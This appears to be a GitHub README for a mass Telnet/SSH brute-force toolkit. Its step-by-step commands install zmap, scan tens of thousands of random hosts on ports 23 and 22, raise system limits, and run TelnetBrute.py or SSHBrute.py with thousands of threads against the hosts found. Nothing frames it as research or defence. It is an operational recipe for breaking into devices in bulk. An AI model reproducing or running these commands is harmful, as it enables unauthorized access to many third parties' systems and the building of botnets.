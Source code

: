 [VPS CentOS 6.9 2GB-RAM] 

- Install zmap

1- sh zmap_auto_install.sh

- Scan Telnet/Ssh Ips

1- zmap -p23 -o mfutelnet.txt -N 25000    ---OR---    zmap -p22 -o mfussh.txt -w -N 25000

   1,5--(optional)  zmap -p23 -o mfutelnet.txt -w telnet.lst   ---OR---   zmap -p22 -o mfussh.txt -w ssh.lst

- Bruteforce 

2- ulimit -n 999999

3- python TelnetBrute.py mfutelnet.txt 15000 telnettest.txt    ---OR---    python SSHBrute.py mfussh.txt 15000 sshtest.txt 




<img src="https://raw.githubusercontent.com/XeljomudoX/TelnetBrute.py/master/lul.png">



